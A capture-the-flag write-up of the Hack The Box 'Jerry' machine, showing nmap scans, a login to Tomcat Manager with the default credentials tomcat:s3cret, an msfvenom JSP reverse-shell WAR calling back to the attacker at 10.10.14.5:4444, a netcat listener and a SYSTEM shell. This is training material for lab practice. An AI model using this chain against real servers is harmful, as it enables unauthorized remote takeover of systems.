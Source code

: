 ```yaml
---
title: "Jerry"
url: "/writeups/hackthebox/jerry/"
summary: jerry
tags:
- hackthebox
- windows
- tomcat
- war
---
```


![Jerry](/htb-jerry.png)

## Scanning
### nmap
Started with an nmap scan:
* TCP all ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -T4 -p- 10.10.10.95 -oA nmap/tcp_all_ports
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:35 EDT
Nmap scan report for 10.10.10.95
Host is up (0.018s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -sCV -p8080 10.10.10.95 -oA nmap/tcp_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:37 EDT
Nmap scan report for 10.10.10.95
Host is up (0.021s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
Only one port found, which is 8080 and looks to be an HTTP Apache Tomcat server, so it can be opened in a web browser.
```
## Enumeration
### Web Page
Looks to be a default Apache Tomcat page:
![Jerry](/htb-jerry-apache_tomcat_page.png)
Using one of the default credentials found, `tomcat:s3cret`, logging into the Manager App section of the website is easy.
![Jerry](/htb-jerry-apache_tomcat_manager.png)
Looking further down on the page, it looks like a WAR file can be uploaded and deployed to the server.
![Jerry](/htb-jerry-deploy_war_file.png)

## Exploitation
Knowing that it takes a war file, a war file reverse shell can be created to upload and attempted to execute

### File Upload
Created the reverse shell war file using msfvenom
```bash
kali@kali:~/ctf/htb/machines/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war > reverse.war
```
Now to upload the war file.
![Jerry](/htb-jerry-deploy_war_file2.png)
After selecting the Deploy button it can now be seen in the Path column under Applications:
![Jerry](/htb-jerry-reverse_shell_path.png)

### Reverse Shell
Now to start a netcat listener to catch the reverse shell after executing it:
```bash
kali@kali:~/ctf/htb/machines/jerry$ nc -lvnp 4444
listening on [any] 4444 ...
```
After selecting the /reverse path link from the Path column under Applications, a reverse shell is returned as the nt authority\system user:
```bash
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>hostname
hostname
JERRY
```
## Flags
With access as nt authority\system, no privilege escalation is needed, and both flags can be retrieved:
```bash
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0...

root.txt
04a8b36e1545a455...
```
